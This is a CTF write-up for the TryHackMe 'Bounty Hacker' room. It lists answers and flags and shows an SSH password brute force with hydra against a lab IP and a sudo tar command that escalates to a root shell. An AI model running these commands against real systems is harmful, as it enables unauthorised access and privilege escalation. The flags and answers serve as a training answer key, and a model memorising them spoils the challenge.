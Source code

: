 
https://tryhackme.com/room/cowboyhacker
"You were boasting on and on about your elite hacker skills in the bar and a few Bounty Hunters decided they'd take you up on claims! Prove your status is more than just a few glasses at the bar. I sense bell peppers & beef in your future!"


##############################
		Cosmin Tibuleac | 23.02.2022
##############################




# Task 1: Living up to the title.

1. Deploy the machine.
	`N/A`
	
2. Find open ports on the machine

	`N/A`
	
3. Who wrote the task list?

	`lin`
	
4. What service can you bruteforce with the text file found?

	`ssh`
	
5. What is the users password?

	`RedDr4gonSynd1cat3`
	
	## using hydra to find the correct ssh password: 
	
	hydra -l lin -P /root/CTF/thm/bounty_hacker/locks.txt 10.10.8.99 -t 4 ssh | tee hydra.log

**[22][ssh] host: 10.10.8.99   login: lin   password: RedDr4gonSynd1cat3**


6. user.txt

	`THM{CR1M3_SyNd1C4T3}`

7. root.txt


'sudo -l' 

*User lin may run the following commands on bountyhacker:
    (root) /bin/tar*
	

"If the binary is allowed to run as superuser by sudo, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access."

    *sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh*
  

source: 
https://gtfobins.github.io/gtfobins/tar/#sudo

` THM{80UN7Y_h4cK3r}`
	